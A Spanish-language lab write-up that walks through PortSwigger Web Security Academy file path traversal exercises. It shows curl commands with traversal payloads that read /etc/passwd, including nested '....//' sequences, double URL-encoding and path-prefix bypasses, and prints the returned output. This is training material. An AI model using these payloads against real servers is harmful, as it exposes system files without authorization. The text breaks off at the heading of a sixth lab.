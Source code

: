 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice



## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
....
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html
<img src="/image?filename=64.jpg">
```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

Vamos mas al grano, y vamos a probar de una vez el enlace de las imagenes con el fichero **/etc/passwd**.

```bash
https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=71.jpg
```

```bash
└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=/etc/passwd
"No such file"

└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=../../etc/passwd
"No such file"
```

Podemos sospechar lo mismo que en el nivel anterior, la consulta elimina la cadena **../** por lo cual, lo que haremos será burlar esto de una manera algo ingeniosa:

```bash
#El sitio eliminará la cadena ../ pero, al hacer eso juntará las cadenas .. y / que crearán otro ../
...// -> ..(../)/ -> ../
```

Entonces ahora pogramos el payload con el comando **curl**.

```bash
└──╼ $curl "https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
....
```

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=38.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=....//....//....//etc/passwd'
"No such file"
```

Como vemos no es posible, entonces intentaremos codificando el caracter **/** y que en urlenconde sería igual a **%2F**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%2F..%2F..%2Fetc%2Fpasswd'
"No such file"
```

Como podemos ver, tampoco funciona, así que buscaremos otras codificaciones posibles para **/**. Y por ahí nos topamos que se puede encodear con la siguiente cadena **%252f**.

```bash
└──╼ $curl 'https://acaa1f311fcad91f8028226d004e00b0.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
....
```

## 5. Lab: File path traversal, validation of start of path

```bash
https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/41.jpg
```

Verificamos si el metodo a usar del laboratorio anterior es suficiente.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=..%252f..%252f..%252fetc%252fpasswd'
"Missing parameter 'filename'"
```

Al parecer como vemos en la url de la imagen, **/var/www/images/41.jpg**, sigue un parametro de ruta inicial **/var/www/images/**, lo que haremos será dejarlo así pero acontinuacion agregar retrocesos de directorios **../** hasta lograr llegar a la raiz y agregarle el **/etc/passwd**.

```bash
└──╼ $curl 'https://acf31f4d1e13f43680eae142000a009b.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
....
```

## 6. Lab: File path traversal, validation of file extension with null byte bypass

